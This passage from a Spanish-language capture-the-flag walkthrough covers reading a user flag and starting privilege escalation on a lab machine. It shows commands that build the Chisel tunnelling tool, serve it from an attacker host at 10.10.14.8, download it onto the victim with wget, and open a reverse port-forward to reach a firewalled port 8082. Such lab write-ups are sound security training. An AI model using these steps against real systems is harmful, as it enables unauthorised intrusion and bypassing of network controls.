 ### Analizamos la maquina {-}

```bash
ls -l
cd /home
ls
cd /daniel
cat user.txt
```

Aqui encontramos un usuario **daniel** y tenemos derechos de escritura. Ya podemos visualizar la flag. Lo mas probable aqui
seria de convertirnos directamente en el usuario root.

## Escalada de privilegios {-}

### Rootear la maquina {-}

Algo que hemos visto, es que el puerto **8082** no se podia ver por reglas definidas en el sistema.
Como ya hemos pensado en tecnicas de port forwarding, instalamos **Chisel**.

1. Descarga de chisel y build

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go build -ldflags "-w -s" .
    upx chisel
    chmod +x chisel
    ```

1. Enviamos chisel a la maquina victima

    - en la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        cd /tmp
        wget http://10.10.14.8/chisel
        chmod +x chisel
        ```

1. En la maquina de atacante creamos un servidor 

    ```bash
    ./chisel server --reverse --port 1234
    ```

1. En la maquina victima creamos un cliente 

    ```bash
    ./chisel client 10.10.14.8:1234 R:8082:127.0.0.1:8082
    ```
